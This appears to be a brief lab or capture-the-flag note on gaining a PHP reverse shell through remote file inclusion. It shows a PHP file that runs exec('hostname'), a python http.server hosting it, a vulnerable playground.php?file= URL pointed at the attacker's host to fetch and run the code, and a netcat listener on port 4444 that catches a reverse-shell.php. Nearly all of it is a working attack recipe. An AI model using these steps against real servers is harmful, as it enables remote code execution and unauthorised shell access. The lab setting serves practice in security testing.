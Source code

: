- For reverse shell in php currently i have two options.

Option1: 

Step1: Create a php file with an instruction inside

└─$ cat hello.php    
<?php echo "Hello, World!"; ?>
or execute commands
<?php print exec('hostname'); ?>

Step2: Run a python server from that folder:
sudo python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.203.18 - - [06/Feb/2024 14:03:42] "GET /rev.php HTTP/1.1" 200 -


Step3: Specify it in the vulnerable server:
http://10.10.203.18/playground.php?file=http://10.14.70.188:8000/hello.php


Option2:
Step1: Download a reverse shell script, indicate port where your netcat is listening
Example:
nc -nvlp 4444
Step2: Turn on the python script inside same folder.
Step3:  Run the command
http://10.10.203.18/playground.php?file=http://10.14.70.188:8000/reverse-shell.php